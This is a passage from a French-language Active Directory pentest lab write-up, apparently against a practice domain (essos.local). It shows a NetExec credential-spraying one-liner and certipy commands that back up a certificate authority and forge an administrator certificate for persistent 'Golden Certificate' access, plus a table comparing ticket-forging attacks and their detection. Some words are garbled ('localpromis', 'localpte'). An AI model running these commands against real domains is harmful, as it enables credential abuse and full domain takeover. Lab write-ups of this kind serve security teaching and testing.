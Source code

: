 #### 6.5 Test d'auth sur le domaine


```bash
awk -F: '{print "nxc smb $DC_IP -u \x27"$1"\x27 -p \x27"$2"\x27 -d $DOMAIN"}' user-password.txt 

[...]
# nxc smb $DC_IP -u 'office.domain.local\warmachine' -p '123456' -d $DOMAIN
# nxc smb $DC_IP -u 'office.domain.local\z-4195' -p '123456' -d $DOMAIN
[...]
```

#### 6.6 Filter enable only

![alt text](img/bbbb.png)

```plain-text
[...]
```

![alt text](img/aaaaa.png)

#### 6. Golden Certificate

![Super CA](img/ca.png)

```bash
certipy ca -backup -u 'khal.drogo'@'essos.local' -p 'horse' -target "$DC_IP" -ca 'ESSOS-CA'
certipy forge -ca_pfx ca.pfx -upn "Administrateur@$DOMAIN" -out admin_forged.pfx
```
![alt text](img/image23.png)

1.	L’attaquant récupère un backup de la CA d’Active Directory.
2.	Il forge un nouveau certificat avec avec des identifiants falsifiés (UPN, DNS, SID).
3.	Il signe le certificat avec la clé privée du CA localpromis, ce qui le rend légitime aux yeux de Kerberos et Active Directory.
4.	Il utilise ce certificat pour s’authentifier via PKINIT, obtenant un TGT sans mot de passe.
5.	Il peut réutiliser ce certificat indéfiniment.

**Difficile à révoquer**, sauf si le certificat CA est invalidé.  

| **Nom de l'Attaque**     | **Principe**                                           | **Persistance**      | **Détection**              |
|--------------------------|------------------------------------------------------|---------------------|----------------------------|
| **Golden Certificate**   | Forge un **certificat AD CS valide** pour obtenir un TGT | ✅ Très élevée *(tant que le CA est valide)* | Difficile *(PKINIT peu logué, Event ID 4769 requis)* |
| **Golden Ticket**        | Forge un **TGT Kerberos** avec le localpte `krbtgt`      | ✅ Élevée *(tant que `krbtgt` n’est pas reset)* | Moyen *(logs Kerberos, Event ID 4769)* |
| **Silver Ticket**        | Forge un **TGS pour un service spécifique**           | ✅ Moyen *(jusqu’à expiration du ticket)* | Facile *(TGS non vérifié par le DC)* |
| **Pass-the-Ticket**      | Réutilisation d’un **TGT/TGS volé**                    | ❌ Faible *(dépend de la durée du ticket)* | Moyen *(ticket réutilisé visible dans les logs)* |

**Aucun mot de passe localpromis** : donc pas de détection via `Event ID 4776` (NTLM) ou `Event ID 4625` (échec d’authentification).  


